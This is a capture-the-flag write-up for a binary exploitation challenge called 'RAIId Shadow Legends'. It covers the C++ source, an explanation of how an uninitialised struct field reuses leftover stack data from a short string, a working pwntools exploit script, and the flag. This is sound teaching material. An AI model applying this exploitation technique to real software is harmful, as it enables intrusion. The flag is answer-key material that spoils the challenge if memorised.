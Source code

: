 # RAIId Shadow Legends

I love how C++ initializes everything for you. It makes things so easy and fun!

Speaking of fun, play our fun new game RAIId Shadow Legends (source) at /problems/2021/raiid_shadow_legends on the shell server, or connect with nc shell.actf.co 21300.

Author: kmh

## Challenge

After accepting the terms and conditions, we are given an interactive prompt for a game.
To win, we need to fight for the flag with a skill level exactly equal to 1337.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Relevant source code

```c
struct character {
	int health;
	int skill;
	long tokens;
	string name;
};

void play() {
	string action;
	character player;
	cout << "Enter your name: " << flush;
	getline(cin, player.name);
	cout << "Welcome, " << player.name << ". Skill level: " << player.skill << endl;
	while (true) {
		cout << "\n1. Power up" << endl;
		cout << "2. Fight for the flag" << endl;
		cout << "3. Exit game\n" << endl;
		cout << "What would you like to do? " << flush;
		cin >> action;
		cin.ignore();
		if (action == "1") {
			cout << "Power up requires shadow tokens, available via in app purchase." << endl;
		} else if (action == "2") {
			if (player.skill < 1337) {
				cout << "You flail your arms wildly, but it is no match for the flag guardian. Raid failed." << endl;
			} else if (player.skill > 1337) {
				cout << "The flag guardian quickly succumbs to your overwhelming power. But the flag was destroyed in the frenzy!" << endl;
			} else {
				cout << "It's a tough battle, but you emerge victorious. The flag has been recovered successfully: " << flag.rdbuf() << endl;
			}
		} else if (action == "3") {
			return;
		}
	}
}

void terms_and_conditions() {
	string agreement;
	string signature;
	cout << "\nRAIId Shadow Legends is owned and operated by Working Group 21, Inc. ";
	cout << "As a subsidiary of the International Organization for Standardization, ";
	cout << "we reserve the right to standardize and/or destandardize any gameplay ";
	cout << "elements that are deemed fraudulent, unnecessary, beneficial to the ";
	cout << "player, or otherwise undesirable in our authoritarian society where ";
	cout << "social capital has been eradicated and money is the only source of ";
	cout << "power, legal or otherwise.\n" << endl;
	cout << "Do you agree to the terms and conditions? " << flush;
	cin >> agreement;
	cin.ignore();
	while (agreement != "yes") {
		cout << "Do you agree to the terms and conditions? " << flush;
		cin >> agreement;
		cin.ignore();
	}
	cout << "Sign here: " << flush;
	getline(cin, signature);
}
```

## Solution

The `character` struct has no default values, and no defaults are set when the player is initialised.
If there are valid values in memory when the game starts, these will be used during the game.

By either using a debugger or simply testing inputs, we can find that part of the `agreement` variable in the `terms_and_conditions` function overlaps with `player.skill` in the `play` function.

With C++ strings, short strings are stored on the stack, while longer strings are stored in the heap.
Therefore, we need to make our agreement long enough to write the desired skill level, but short enough that it is placed on the stack.

We first write 4 bytes of padding, followed by the skill level we want in little endian.
Then we can type "yes" to accept the agreement as normal.
We can now start the game with a skill level of 1337 and fight for the flag.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host shell.actf.co --port 21300 raiid_shadow_legends
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('raiid_shadow_legends')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'shell.actf.co'
port = int(args.PORT or 21300)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil("?")
io.sendline("1")

io.recvuntil("?")
io.sendline("AAAA\x39\x05")

io.recvuntil("?")
io.sendline("yes")

io.recvuntil(":")
io.sendline("A")
io.recvuntil(":")
io.sendline("A")

io.recvuntil("?")
io.sendline("2")

io.recvuntil(":")
io.interactive()
```

## Flag

`actf{great_job!_speaking_of_great_jobs,_our_sponsor_audible...}`

